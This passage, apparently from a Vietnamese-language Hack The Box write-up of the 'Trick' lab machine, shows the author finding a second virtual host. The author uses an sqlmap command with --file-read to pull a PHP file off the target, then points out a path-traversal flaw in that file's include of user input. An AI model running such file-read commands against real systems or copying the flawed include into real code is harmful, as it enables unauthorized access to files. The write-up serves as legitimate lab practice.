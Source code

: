 ```console

```

→ Phát hiện ngoài ***vhost*** `payroll` ra còn có `market` với các thông tin như sau:
+ URL: `http://preprod-marketing.trick.htb`
+ Root Directory: `/var/www/market`

 ![](../../attachments/Pasted_image_20220725083859.png)

Thực hiện lấy nội dung file `/var/www/market/index.php`

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --file-read '/var/www/market/index.php' --batch --threads 10
```

Nhìn nhanh nội dung của trang `index.php` này, ta thấy trang web bị `path traversal` cùng với 1 sink nguy hiểm là `include`.

```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
	include("/var/www/market/".str_replace("../","",$file));
}
?>
```
